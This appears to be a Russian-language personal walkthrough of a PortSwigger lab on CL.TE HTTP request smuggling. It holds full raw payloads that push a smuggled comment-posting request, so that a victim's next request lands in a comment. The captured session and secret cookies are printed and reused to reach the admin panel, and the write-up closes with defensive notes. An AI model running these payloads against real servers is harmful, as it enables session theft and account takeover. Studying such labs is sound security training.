




лаба https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

задание:

отправить запрос на внутренний сервер, который сохранит запрос следующего пользователя в приложении.
(то есть нужно - сохранить запись юзера на сайте, и единственный способ тут сохранить что-то - это оставить коммент)
нужно отправить контрабандой запрос так - чтобы контрабандой пронести запрос сохранения коммента юезером, при этом - в комменте должны оказаться куки юзера...

-----

вот ориг запрос на глав страницу
```http
GET / HTTP/2
Host: 0a0f001a04217fa083965594007000ff.web-security-academy.net
Cookie: session=WUIYptR9wIOjxOUOnmFM9i1O5eRi2TBX
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
--------


-----
первичная подготовка к тестам:

 меняю протокол на  HTTP/1.1 и запрос также работает, отлично

далее убираю куки все - чтобы не мельтишили тут
меняю метод на POST
выключаю апдейт CL
добавляю
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked


-----
сырой запрос выходит
```http
POST / HTTP/1.1
Host: 0a0f001a04217fa083965594007000ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 1
Transfer-Encoding: chunked

1
```

---

теперь нужно сделать два базовых запроса для определения базовых видов уязвимостей

простой запрос тест
```http
POST / HTTP/1.1
Host: 0a0f001a04217fa083965594007000ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

16
abc
x

```
ответ 500 Server Error: Communication timed out
ошибка  от бека - то есть фронт это пропустил

при Content-length: 9 -  ответ 200
при Content-length: 10 - ответ 400 тайм аут (фрон ждал еще этот 1 байт)
###### значит фронт слушается CL 

------

запрос
```http
POST / HTTP/1.1
Host: 0a0f001a04217fa083965594007000ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 99
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
Host: 0a0f001a04217fa083965594007000ff.web-security-academy.net

```
первый запрос - ответ 200 вся страница
второй запрос - ответ 400 "error":"Invalid request"
значит - часть запроса все-таки попадает 
но не выходит попасть на /post?postId=8


----

вот ориг запрос который оставляет комментарий
(этот запрос и нужно будет протащить контрабандой )

```http
POST /post/comment HTTP/2
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Cookie: session=yC6t2N9wbjmp7cKdSTmKzBssQJdXou8F
Content-Length: 109
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1e0012041f4008802f172a00ac006b.web-security-academy.net/post?postId=6
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=mEUJVDUgaAUFEf3x5ihB6Jxsw3T8dznd&postId=6&comment=comment+text&name=hacker&email=hacker%40bk.ru&website=
```


------


пробую подготовить пейлоад
```http
POST / HTTP/1.1
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 281
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Cookie: session=yC6t2N9wbjmp7cKdSTmKzBssQJdXou8F
Content-Length: 309

csrf=mEUJVDUgaAUFEf3x5ihB6Jxsw3T8dznd&postId=6&comment=comment+text&name=hacker&email=hacker%40bk.ru&website=
```
первый ответ 200
повторный запрос 400 "Invalid email address: hacker%40bk.ru"
иногда несколько раз подряд идет 200

( иногда ответ 500 Server Error: Communication timed out: sent = true, receivedEmptyResponse = true, timedOut = true ) 

( иногда ответ 500 Server Error: Communication timed out )

при этом не появляются комменты под постом


нужно $comment= поставить в конце запроса - чтобы весь оставшийся запрос оказался внутри коммента!
вот так:
```http
POST / HTTP/1.1
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 269
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Cookie: session=yC6t2N9wbjmp7cKdSTmKzBssQJdXou8F
Content-Length: 350

csrf=mEUJVDUgaAUFEf3x5ihB6Jxsw3T8dznd&postId=6&name=hacker&email=hacker%40bk.ru&website=&comment=
```
первый ответ 200
второй 200
третий 400 "Invalid email address: hacker%40bk.ru"
видимо - емайл не совпадает с кукой...
но есть не указать емайл - то 400 ошибка "Missing parameter"

может можно не указывать емайл, но указать сайт? - нет  не получилось

пробую увеличивать Content-Length: 350...

# я нашел ошибку ключевую!
я делал email=hacker%40bk.ru
а нужно было email=hacker @bk.ru 
то есть через собачку @
поэтому у была ошибка про неверный емал!

вот верный запрос
```http
POST / HTTP/1.1
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 267
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net
Cookie: session=yC6t2N9wbjmp7cKdSTmKzBssQJdXou8F
Content-Length: 150

csrf=mEUJVDUgaAUFEf3x5ihB6Jxsw3T8dznd&postId=6&name=hacker&email=hacker@bk.ru&website=&comment=
```

начали появляться посты !!
причем длинна комментов зависит от моего `Content-Length: 150

`


увеличиваю Content-Length: 750
вижу коммент 
```c
GET / HTTP/1.1 
Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net 
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24" 
sec-ch-ua-mobile: ?0 
sec-ch-ua-platform: "Linux" 
upgrade-insecure-requests: 1 
user-agent: Mozilla/5.0 (Victim) 
AppleWebKit/537.36 
(KHTML, like Gecko) 
Chrome/125.0.0.0 
Safari/537.36 accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: none sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document accept-encoding: gzip, deflate, br, zstd accept-language: en-US,en;q=0.
```

Content-Length: 950
```c
GET /post?postId=6 HTTP/1.1 Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net cache-control: max-age=0 sec-ch-ua: "Chromium";v="145", "Not:A-Brand";v="99" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "macOS" accept-language: ru-RU,ru;q=0.9 upgrade-insecure-requests: 1 user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/
;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: same-origin sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document referer: https:\/0a1e0012041f4008802f172a00ac006b.web-security-academy.net/ accept-encoding: gzip, deflate, br priority: u=0, i 

cookie: session=XeGieeVkU2mRVRuBRLQokWtvnAjpfGBS Content-Le

```

короче говоря - каждый новый запрос - я ловлю чьи-то куки



---
```c
GET / HTTP/1.1 Host: 0a1e0012041f4008802f172a00ac006b.web-security-academy.net sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Linux" upgrade-insecure-requests: 1 user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 sec-fetch-site: none sec-fetch-mode: navigate sec-fetch-user: ?1 sec-fetch-dest: document accept-encoding: gzip, deflate, br, zstd accept-language: en-US,en;q=0.9 priority: u=0, i cookie: victim-fingerprint=M0neWkW1RzJRomD3MAPmItx577ytTC08; secret=Nhv6Hf6HxtJ0URXVZi38VjdVuBzTYJbm; session=YAHj17T4QHdMr62ByF91UZkC7uQz0ij4 Conte
```




вижу в комменте три куки юзера!!!

fingerprint=M0neWkW1RzJRomD3MAPmItx577ytTC08; secret=Nhv6Hf6HxtJ0URXVZi38VjdVuBzTYJbm; session=YAHj17T4QHdMr62ByF91UZkC7uQz0ij4

подставляю все эти куки  в куки ))

и вуаля - я попал в админку!




-------


### вывод

уязвимость CL.TE позволила перехватить запрос другого пользователя

фронт слушает content-length и пропускает мой запрос целиком

бэк слушает transfer-encoding, видит чанк 0 и обрезает запрос, оставляя внутренний POST /post/comment в буфере

следующий запрос жертвы приклеивается к этому буферу, и его данные (включая куки) попадают в параметр comment (гениально)

увеличивая content-length внутреннего запроса, смог захватить  куки жертвы и войти в её аккаунт

### защита

нужно чтобы фронт и бэк одинаково определяли границы запросов

лучше использовать http/2 где нет путаницы с длинойй

если http/1.1 то запрещать запросы с противоречивыми заголовками content-length и transfer-encoding

также валить соединения где возникает рассогласование

для критических операций (как отправка комментариев) использовать строгую валидацию входных данных и не доверять длине, указанной в запрос

вовремя обновлять серверное по